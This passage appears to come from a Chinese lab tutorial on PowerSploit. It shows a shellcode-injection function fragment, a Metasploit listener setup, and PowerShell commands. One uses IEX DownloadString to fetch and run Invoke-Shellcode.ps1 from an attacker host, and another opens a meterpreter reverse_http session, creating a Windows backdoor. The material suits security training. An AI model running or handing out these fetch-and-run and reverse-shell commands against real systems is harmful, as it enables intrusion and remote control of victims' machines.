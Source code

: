 ```
)
...
...
# 函数远程注入函数关键部分
function Local:Inject-RemoteShellcode ([Int] $ProcessID)
    {
        # 打开一个句柄选择你想注入的进程，ProcessAccessFlags.All (0x001F0FFF)
        $hProcess = $OpenProcess.Invoke(0x001F0FFF, $false, $ProcessID) 
        
        # 判断上打开句柄是否成功，进程是否为空
        if (!$hProcess)
        {
            Throw "Unable to open a process handle for PID: $ProcessID"
        }
        ...
        ...
    }
```

### 4.2 本地 Kali Linux 演示完整版（选看）

步骤和在实验楼操作的一样，先使用 python 启动 Web 网页服务：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482393737397.png-wm)


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482395399204.png-wm)


接着再打开新的命令行终端，输入命令 `msfconsole` 打开 `Msfconsole`，设置 `PAYLOAD` 以及本地主机 IP 地址 `LHOST` 和本地主机端口号 `LPORT`。最后输入攻击命令 `exploit`，监听目标主机。箭头所指的地方需要替换成攻击者电脑的 IP 地址，由 `ifconfig` 命令可以查看本机 ip 地址。 

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482393380008.png-wm)

```
# 下载脚本文件
ps > IEX (New-Object Net.WebClient).DownloadString ("http://192.168.192.122.101:8000/CodeExecution/Invoke-Shellcode.ps1 ")
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482395671440.png-wm)

```
# 创建 session 会话通道
ps > Invoke-Shellcode -Payload windows/meterpreter/reverse_http -lhost 192.168.122.101 -lport 4444 -Force
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482396010425.png-wm)

PowerSploit 创建 Windows 后门在 Windows 下的两条重要命令如上图所示，第一条命令会创建一个 .Net WebClient Object 用来下载工具，并把它传到 Invoke-Expression 用来将工具映射到内存。第二条命令用于监听者调用 Invoke-Shellcode 工具，创建会话通道。

**`注意：`其中 Windows 下的攻击者的 IP 地址要填写正确，Linux 本机的 IP 地址，可以通过 ifconfig 命令进行查看。**
